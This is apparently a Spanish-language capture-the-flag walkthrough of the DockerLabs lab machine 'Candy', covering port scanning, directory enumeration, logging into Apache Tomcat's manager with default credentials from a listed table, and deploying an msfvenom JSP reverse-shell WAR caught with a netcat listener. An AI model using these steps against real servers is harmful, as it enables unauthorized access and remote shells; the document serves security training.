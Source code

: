 ```yaml
---
title: Candy - DockerLabs
published: true
categories: DockerLabs
---
```


| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     |
| Linux  |  Fácil      | El Pingüino de Mario |

# Reconocimiento Inicial

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo.

```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports
```

- `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![Resultado del escaneo](https://github.com/user-attachments/assets/5811d9cc-09c3-4632-ae97-1865205329b8)

Durante el escaneo, descubrimos que el puerto abierto es:
- `8080` (HTTP)

# Enumeración de Servicios

A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad y obtenemos más información sobre los servicios asociados a estos puertos.

```bash
nmap -p8080 -sCV 172.17.0.2 -oG targeted
```

![Resultado del escaneo con servicios](https://github.com/user-attachments/assets/cbfab6eb-5a1b-415a-9365-5bfa0433ec73)

# Exploración Web

Al navegar al puerto `8080`, descubrimos un sitio web de **Apache Tomcat** en su versión `9.0.88`.

![Sitio web Tomcat](https://github.com/user-attachments/assets/28c15c29-fe88-47da-b8b4-2311ef0f81d1)

## Reconocimiento de Directorios

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```

- `gobuster dir`: Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/`: Especifica la URL objetivo que deseas escanear.
- `-w`: Especifica el diccionario a utilizar.
- `-x`: Indica los tipos de extensiones que deseas buscar.

![Resultado de Gobuster](https://github.com/user-attachments/assets/c3203ae4-dff2-4938-a70c-28346f56dc1d)

## Intentos de Acceso con Credenciales por Defecto

El acceso al panel administrativo requería credenciales. Probamos varias combinaciones de usuario y contraseña por defecto:

|Username     |Password  |
|-------------|----------|
|admin        |password  |
|admin        |<blank>   |
|admin        |Password1 |
|admin        |password1 |
|admin        |admin     |
|admin        |tomcat    |
|both         |tomcat    |
|manager      |manager   |
|role1        |role1     |
|role1        |tomcat    |
|role         |changethis|
|root         |Password1 |
|root         |changethis|
|root         |password  |
|root         |password1 |
|root         |r00t      |
|root         |root      |
|root         |toor      |
|tomcat       |tomcat    |
|tomcat       |s3cret    |
|tomcat       |password1 |
|tomcat       |password  |
|tomcat       |<blank>   |
|tomcat       |admin     |
|tomcat       |changethis|

En este caso, las credenciales correctas fueron:

- **Usuario**: `tomcat`
- **Contraseña**: `s3cr3t`

![Acceso al panel de Tomcat](https://github.com/user-attachments/assets/7a43f554-3f08-4bba-b332-73b85b16a206)

# Creación de Reverse Shell

Con acceso al panel, generamos una reverse shell utilizando un archivo malicioso `.war` creado con `msfvenom`.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=4444 -f war -o revshell.war
```

![Archivo malicioso generado](https://github.com/user-attachments/assets/39c7a47a-ddf5-4dbd-82a0-c9e7012fd64a)

Subimos el archivo al servidor y simultáneamente escuchamos el puerto `4444` con `netcat`.

```bash
nc -lvnp 4444
```

![Reverse shell activa](https://github.com/user-attachments/assets/2c558562-adcd-4c54-b885-214fd9c29b4b)

# Escalada de Privilegios

Al acceder al sistema, ya tenemos permisos de **root**.

![Acceso como root](https://github.com/user-attachments/assets/5aaa3629-ccef-41bd-a808-908ddcf472ab)

---

Con esto completamos el ejercicio **Candy** en DockerLabs.

